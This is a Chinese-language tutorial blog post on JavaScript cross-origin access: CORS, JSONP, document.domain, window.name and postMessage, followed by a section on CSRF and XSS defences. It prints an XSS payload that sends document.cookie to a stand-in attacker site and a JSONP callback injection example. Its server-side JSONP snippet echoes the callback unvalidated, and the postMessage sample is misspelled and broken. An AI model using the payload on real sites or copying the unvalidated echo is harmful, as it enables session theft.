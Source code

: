 ```yaml
---
layout: post
title: 浅谈js跨域问题
date: 2015-09-23
author: "Jenny"
tags: [javascript,跨域]
---
```


> 所谓跨域，或者异源，是指主机名（域名）、协议、端口号只要有其一不同，就为不同的域（或源）。浏览器中有一个基本的策略，叫同源策略，即限制“源”自A的脚本只能操作“同源”页面的DOM。

先聊一下w3c的***CORS规范***：

> CORS旨在定义一种规范让浏览器在接收到从提供者获取资源时能够决定是否应该将此资源分发给消费者作进一步处理。

具体如下：

1. 消费者发送一个Origin报头到提供者端：`Origin: http://www.a.com`；

2. 提供者发送一个Access-Control-Allow-Origin响应报头给消费者，如果值为*或Origin对应的站点，则表示同意共享资源给消费者，如果值为null或者不存在Access-Control-Allow-Origin报头，则表示不同意共享资源给消费者；

3. 浏览器根据提供者的响应报文判断是否允许消费者跨域访问到提供者源。

要解决跨域的问题，有以下几种方法：

<h4>1、通过Jsonp跨域</h4>

对于一段JavaScript脚本来说，其“源”与它存储的地址无关，而取决于脚本被加载的页面，例如我们在页面中使用<script>引入存储在其他域的脚本文件：

`<script src="http://www.a.com/index.js"></script>`

这里脚本与当前页面是同源的。除了<script>，还有<img>、<iframe>、<link>等都具有跨域加载资源的能力。

Jsonp正是利用这种特性来实现跨域的：在页面中引入要跨域访问的来源，并定义回调函数处理跨域访问得到的json数据。如：

```
<script>
function handleData(data) {
    //处理数据
}
</script>
<script src="http://www.a.com/getData.do?callback=handleData"></script>
```

也可以使用jquery封装的方法，如$.ajax:

```
<script>
function hadnleData(data) {
    //处理数据
}
$.ajax({
    url: 'http://www.a.com/getData.do?callback=?',
    type: "GET",
    dataType: "jsonp",
    jsonpCallback: "handleData"
});
</script>
```

当然还需要服务端配合处理：

```
String handleData = request.getParameter("callback");//客户端的回调函数
out.println(handleData+"("+resultJSON+")");//返回jsonp格式数据
```

<h4>2、修改document.domain来跨子域</h4>

www.a.com/1.html和a.com/2.html是不同域的，要使他们可以跨域访问，可通过修改document.domain来实现，即在两个页面中都设置：

`document.domain="a.com";`

需要注意的是document.domain只能往父级修改，如a.com改为www.a.com是不被允许的，这也是此方法的局限性，只使用于跨子域访问。

<h4>3、使用window.name来跨域访问</h4>

window.name是同一浏览器窗口下载入的所有页面共享的数据字段，所有窗口都可以读写此字段的内容。所以假设a.com要访问b.com的数据，只需要在b.com中将数据放在window.name中，然后a.com从中取出即可。此方法适用于像iframe这样的嵌套页面架构。

<h4>4、使用HTML5的window.postMessage方法</h4>

假设要在a.com和b.com页面之间传递数据：

```
//a.com页面
window.postMesssage(JSON.stringify({xxx:'test'},'b.com');
//b.com页面
window.onMessage=function(e){
    var data = JSON.parse(e.data);
    console.log(data); //{xxx:'test'}
}
```

下面谈一下跨域访问的一些安全性问题，主要是CSRF和XSS攻击问题。

<h4>1、CSRF/XSRF攻击</h4>

网上找到一个大神发的图，贴在这里观摩观摩：

![](/img/cross-domain/1.png)

其实就是危险网站B在自己网站上贴了网站A的某个接口链接（a标签或form提交是支持跨域的），引导用户点击（骗取用户cookie）去访问网站A，祸因在于用户登录了A在不注销的情况下登录了B。解决方法有很多，如验证码，表单附加随机数等，原理基本都是校验登录方的请求令牌。

如果使用跨域访问可以更简单的进行CSRF攻击（当然也有相应的防范措施），当某网站通过JSONP方式来跨域传递用户认证后的敏感信息时，攻击者可以构造恶意的JSONP调用页面，诱导被攻击者访问来达到截取用户敏感信息的目的。（这里有一个微博股吧CSRF攻击的[例子](https://www.91ri.org/13407.html)）

目前比较好的防止CSRF攻击的方法是***referer过滤校验+token验证***，即服务端检测JSON文件调用来源和检查token数据是否匹配。

<h4>2、XSS攻击（XSS注入）</h4>

此攻击方法类似sql注入，即提交含有恶意脚本的数据到服务器，从而达到破坏页面甚至盗取cookie伪装登录等目的。例如，在a.com/index.ftl中有如下代码：`欢迎你，${username}`，这时恶意网站b.com传递参数：

`username=<script>window.open(“www.b.com?param=”+document.cookie)</script>`

这样就轻而易举地盗取了用户的cookie值了。

在jsonp跨域访问中，xss注入主要是callback参数注入，如：

`<script src="http://www.a.com/getData.do?callback=<script>alert('xss');</script>"></script>`

防止措施是对参数进行校验过滤。
